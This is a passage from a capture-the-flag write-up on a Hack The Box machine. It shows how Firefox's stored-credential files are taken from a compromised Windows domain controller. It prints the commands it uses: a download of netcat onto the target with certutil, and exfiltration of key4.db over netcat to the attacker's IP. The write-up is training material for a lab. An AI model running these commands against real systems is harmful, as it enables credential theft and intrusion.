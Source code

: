 ## Firefox Stored Creds

Why would Firefox be installed on a Domain Controller?

Of course this is our path, and luckily I covered this a while ago on a TryHackMe room called [Gatekeeper](https://pencer.io/ctf/ctf-thm-gatekeeper) so the steps are simple. First we need to grab the key4.db and logins.json files. For some reason the download feature of Evil-WinRM wouldn't work so I used a static binary of netcat instead:

```sh
┌──(root㉿kali)-[~/htb/streamio]
└─# wget https://eternallybored.org/misc/netcat/netcat-win32-1.12.zip
--2022-06-30 22:57:48--  https://eternallybored.org/misc/netcat/netcat-win32-1.12.zip
Resolving eternallybored.org (eternallybored.org)... 84.255.206.8, 2a01:260:4094:1:42:42:42:42
Connecting to eternallybored.org (eternallybored.org)|84.255.206.8|:443... connected.
HTTP request sent, awaiting response... 200 OK
Length: 111892 (109K) [application/zip]
Saving to: ‘netcat-win32-1.12.zip’
netcat-win32-1.12.zip       100%[=============================>] 109.27K  --.-KB/s    in 0.1s    
2022-06-30 22:57:49 (1011 KB/s) - ‘netcat-win32-1.12.zip’ saved [111892/111892]

┌──(root㉿kali)-[~/htb/streamio]
└─# unzip netcat-win32-1.12.zip 
Archive:  netcat-win32-1.12.zip
  inflating: doexec.c                
  inflating: getopt.c                
  inflating: netcat.c                
  inflating: generic.h               
  inflating: getopt.h                
  inflating: hobbit.txt              
  inflating: license.txt             
  inflating: readme.txt              
  inflating: Makefile                
  inflating: nc.exe                  
  inflating: nc64.exe                

┌──(root㉿kali)-[~/htb/streamio]
└─# python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

With nc downloaded and a Python web server running to host, we also need to set nc listening locally for the file when we send it across:

```sh
┌──(root㉿kali)-[~/htb/streamio]
└─# nc -nlvp 4444 > key4.db
listening on [any] 4444 ...
```

Here we've said whatever is recieved on port 4444 on Kali send it to a file called key4.db. Now over to the box to grab nc and use it to send the key4.db file:

```powershell
*Evil-WinRM* PS C:\Users\nikk37\appdata\roaming\mozilla\firefox\profiles\br53rxeg.default-release> certutil -urlcache -f http://10.10.14.198/nc.exe nc.exe
****  Online  ****
CertUtil: -URLCache command completed successfully.

*Evil-WinRM* PS C:\Users\nikk37\appdata\roaming\mozilla\firefox\profiles\br53rxeg.default-release> cmd /C "nc -nv 10.10.14.198 4444 < key4.db"
cmd.exe : (UNKNOWN) [10.10.14.198] 4444 (?) open
```
